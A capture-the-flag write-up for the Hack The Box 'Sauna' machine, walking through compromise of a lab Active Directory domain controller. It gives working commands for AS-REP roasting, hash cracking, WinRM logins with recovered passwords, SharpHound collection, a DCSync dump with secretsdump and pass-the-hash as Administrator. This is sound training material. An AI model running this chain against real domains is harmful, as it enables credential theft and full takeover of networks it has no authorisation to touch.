# HTB Sauna Write-Up

## Initial Enumeration

I began by running comprehensive port scans to identify all open services on the target:

```bash
ports=$(nmap -p- --min-rate=1000 -T4 10.129.95.180 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV 10.129.95.180 -oN nmap
sudo nmap 10.129.95.180 -sU -oN nmap_UDP
```

The scan revealed several interesting ports indicating this is a Domain Controller:

| Port | Service |  Comments |
|------|---------|----------|
| 53/tcp | domain | DNS server (Simple DNS Plus) |
| 80/tcp | http | IIS 10.0 - "Egotistical Bank" website |
| 88/tcp | kerberos-sec | Kerberos authentication |
| 135/tcp | msrpc |  Microsoft RPC |
| 139/tcp | netbios-ssn |  NetBIOS |
| 389/tcp | ldap |  LDAP (EGOTISTICAL-BANK.LOCAL domain) |
| 445/tcp | microsoft-ds | SMB |
| 464/tcp | kpasswd5 |  Kerberos password change |
| 5985/tcp | http | WinRM |
| 3268/tcp | ldap |  Global Catalog LDAP |

## SMB Enumeration

I first checked for anonymous SMB access:

```bash
nxc smb 10.129.95.180 -u '' -p '' --shares
```



No anonymous access was allowed. I also tried guest authentication:

```bash
nxc smb 10.129.95.180 -u guest -p ''
```


Guest access was also denied.

## Web Enumeration

I started by fingerprinting the web server:

```bash
whatweb http://10.129.95.180
```

The server was running **Microsoft-IIS/10.0**.

I explored the website, which appeared to be for "Egotistical Bank":

**Homepage (/):**


**Single.html page:**


I attempted to submit forms on the website but received **405 Method Not Supported** errors. However, using the OPTIONS method revealed which HTTP methods were accepted by the server.


I also attempted to enumerate subdomains and vhosts:

```bash
ffuf -u http://FUZZ.egotistical-bank.local -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
ffuf -u http://10.129.95.180 -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.egotistical-bank.local" -fc 301
```

Neither yielded any results.

## AS-REP Roasting

Since this was a domain controller with Kerberos enabled, I attempted AS-REP roasting. I used a wordlist of statistically likely usernames:https://github.com/insidetrust/statistically-likely-usernames/blob/master/jsmith.txt

```bash
/usr/share/doc/python3-impacket/examples/GetNPUsers.py EGOTISTICAL-BANK.LOCAL/ -dc-ip 10.129.95.180 -no-pass -usersfile /home/kali/Documents/13_AD_attacks/jsmith.txt
```



The tool found that user **fsmith** did not have Kerberos pre-authentication enabled, and I successfully retrieved an AS-REP hash.

## Cracking the AS-REP Hash

I cracked the hash using hashcat with rockyou.txt:

```bash
hashcat -m 18200 asrep_fsmith /usr/share/wordlists/rockyou.txt
```



The password for fsmith was: **Thestrokes23**

## Validating fsmith's Access

I verified fsmith's credentials and enumerated SMB shares:

```bash
nxc smb 10.129.95.180 -u fsmith -p Thestrokes23 --shares
```



I also checked for WinRM access:

```bash
nxc winrm 10.129.95.180 -u fsmith -p Thestrokes23
```


fsmith had WinRM access, so I established a remote PowerShell session:

```bash
evil-winrm -i 10.129.95.180 -u fsmith -p Thestrokes23
```

## BloodHound Enumeration

From my WinRM session, I transferred and ran SharpHound to collect domain data:

```powershell
upload SharpHound.exe
.\SharpHound.exe -c All
```

I added fsmith as an owned object in BloodHound and analyzed the shortest paths to Domain Admins:



## Privilege Escalation with WinPEAS

I ran WinPEAS to enumerate the system for privilege escalation vectors:


WinPEAS discovered autologon credentials in the registry:
- Username: **svc_loanmanager**
- Password: **Moneymakestheworldgoround!**

## Validating New Credentials

I verified these credentials:

```bash
nxc winrm 10.129.95.180 -u svc_loanmanager -p 'Moneymakestheworldgoround!'
```



I noticed in BloodHound that the user was actually named **svc_loanmgr**, so I tested that as well:

```bash
nxc winrm 10.129.95.180 -u svc_loanmgr -p 'Moneymakestheworldgoround!'
```


Both worked, confirming svc_loanmgr as a valid user with WinRM access.

## BloodHound Analysis for svc_loanmgr

Returning to BloodHound, I marked svc_loanmgr as owned and analyzed its privileges. The user had **DCSync rights**, meaning it could perform a DCSync attack to dump all domain password hashes.

## DCSync Attack

I used Impacket's secretsdump.py to perform the DCSync attack:

```bash
/usr/share/doc/python3-impacket/examples/secretsdump.py -outputfile sauna_hashes -just-dc SAUNA.EGOTISTICAL-BANK.LOCAL/svc_loanmgr@10.129.95.180
```



The Administrator's NTLM hash was: **823452073d75b9d1cf70ebdf86c7f98e**

## Administrator Access

I used the Administrator's hash to establish a WinRM session:

```bash
evil-winrm -i 10.129.95.180 -u Administrator -H 823452073d75b9d1cf70ebdf86c7f98e
```

